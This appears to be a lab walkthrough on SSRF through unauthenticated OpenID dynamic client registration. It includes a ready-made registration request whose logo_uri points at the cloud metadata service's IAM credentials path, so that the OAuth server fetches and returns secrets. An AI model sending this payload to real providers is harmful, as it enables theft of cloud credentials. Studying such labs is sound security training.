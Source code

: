 ```
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256",
    …
}
```
The OpenID provider should require the client application to authenticate itself. In the example above, they're using an HTTP bearer token. However, some providers will allow dynamic client registration without any authentication, which enables an attacker to register their own malicious client application. This can have various consequences depending on how the values of these attacker-controllable properties are used.

For example, you may have noticed that some of these properties can be provided as URIs. If any of these are accessed by the OpenID provider, this can potentially lead to second-order SSRF vulnerabilities unless additional security measures are in place.

### Lab: SSRF via OpenID dynamic client registration
Some OAuth providers allow dynamic client registration without any authentication

To check configuration of OAuth provider use the following url:
```
/.well-known/openid-configuration
```
e.g.:
```
https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration
```

In the response of configuration we got:
```
"registration_endpoint":"https://oauth-0ab1000b04cf85ab80a6c41b025f0095.oauth-server.net/reg"
```
We can use that endpoint to register our app in OAuth provider

During the OAuth flow audit we notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo.

This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration

But instead of providing a valid logo url during dynamic oauth service registration we can provide a url of inner local network, e.g.:
```
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"
}
```

And later when we make a request to get that logo from the OAuth service, the OAuth server will make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` and will send a response from it to us

